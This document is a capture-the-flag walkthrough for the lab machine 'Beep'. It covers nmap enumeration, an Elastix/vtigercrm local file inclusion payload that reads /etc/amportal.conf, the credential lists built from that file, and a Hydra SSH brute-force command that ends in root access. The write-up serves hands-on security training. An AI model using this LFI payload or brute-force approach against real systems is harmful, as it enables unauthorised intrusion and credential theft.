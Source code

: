 # Beep

## Info  
  * IP: 10.10.10.7
  * OS: Linux
  * Difficulty: Easy

## System Enumeration

### NMAP

![Beep Nmap](Machines/boxImages/Beep/nmap.png "NMAP")

### Web Page

![Beep WebPage](Machines/boxImages/Beep/webpage.png "Web Page")

## Exploitation

Since our webpage is an Elastix login, we should simply check if an exploit for elastix exists.  
Using `searchsploit elastix` we find:

![SearchSploit](Machines/boxImages/Beep/searchsploit.png "Searchsploit Output")

Trying out the local file inclusion vulnerability

![Exploit Documentation](Machines/boxImages/Beep/exploitcode.png "LFI graph.php")

`LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  

After appending this address to the web portal `10.10.10.7` we can see the `amportal.conf` file which consists of important user data.  
Simply viewing the source code, we see the data in a readable format

![Exploit Page Source Code](Machines/boxImages/Beep/exploitpage.png "Source Code")

So we make 2 lists for possible users and passwords

#### Users.txt(users on my local machine)
  ```
  root
  mysql
  cyrus
  asterisk
  spamfilter
  fanish
  ```
#### password.txt(pws on my local machine)
  ```
  asterisk
  amp109
  jEhdIekWmdjE
  passw0rd
  ```

### Hydra
After creating the lists of users and passwords we simply run Hydra to check possible ssh combinations.  
Using the command:  
`hydra -L users -P pws ssh://10.10.10.7`

![Hydra](Machines/boxImages/Beep/hydra.png "Hydra")

### Root Owned

Now we simply ssh, with the password that we got as root and we're in

![Rooted](Machines/boxImages/Beep/owned.png "Pwnage")

Simply traverse to the `/root` directory for `root.txt` and to `home/fanis` for `user.txt`

